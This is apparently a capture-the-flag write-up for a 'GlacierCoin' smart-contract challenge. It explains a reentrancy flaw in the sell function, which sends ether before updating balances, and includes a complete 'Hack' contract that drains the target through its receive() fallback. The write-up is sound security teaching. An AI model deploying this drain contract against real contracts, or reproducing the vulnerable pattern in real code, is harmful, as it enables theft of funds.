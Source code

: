 #### Attack workflow
By inspecting the `isSolved` method, we need to steal all the target's balance:
```solidity
function isSolved() public view returns (bool) {
    return address(TARGET).balance == 0;
}
```
The `GlacierCoin` is a simplified Token contract. We need to steal the contract's balance, so we need to search for a method that transfers ether externally. After a quick inspect, the function we are interested in is `sell`
```solidity
function sell(uint256 amount) public
{
    require(balances[msg.sender] >= amount, "You can not sell this much as you are poor af");
    uint256 new_balance = balances[msg.sender] - amount;
    (msg.sender).call{value: amount}("");
    balances[msg.sender] = new_balance;
}
```
If we notice, the contract attempts to send ether to the seller first, **then it updates the `balances` state by decreasing the seller's balance**. We know that when a contract receives ether, its `receive()` fallback is invoked. So, we can create a contract that when it receives ether, in other words: *when its `receive()` fallback is invoked*, it calls back the `GlacierCoin` contract to sell more tokens. That is possible because:
1. `GlacierCoin` contract is updating the seller's balance only after sending ether to it.
2. Smart contracts execution is sequential (the fallback executions will be executed before the state update).

Of course, we initialize the attack by buying 1 ether equivalent of tokens.
> If you are not familiar with the `Reentrancy` attack, I've explained it in details [here](https://github.com/Brivan-26/smart-contract-security/tree/master/Reentrancy)

#### Attack summary
1. Create a contract and initialize it with the Target contract.
2. Call `buy` method and send 1 ether along.
3. Call `sell(1 ether)` method.
4. When the `GlacierCoin` attempts to send ether to the `Hack` contract, the `receive()` fallback will call again the `sell` method (this process will repeat as long as `ClacierCoin`'s balance is greater than zero). 

#### Hack Contract
```solidity
contract Hack {
    GlacierCoin target;
    constructor(GlacierCoin _target) {
        target = _target;
    }

    function hack() external payable {
        require(msg.value == 1 ether, "Provide 1 ether to start the exploit");
        target.buy{value: msg.value}();
        target.sell(msg.value);
    }

     receive() external payable {
        if (address(target).balance > 0) {
            target.sell(msg.value);
        }
    }

}
```
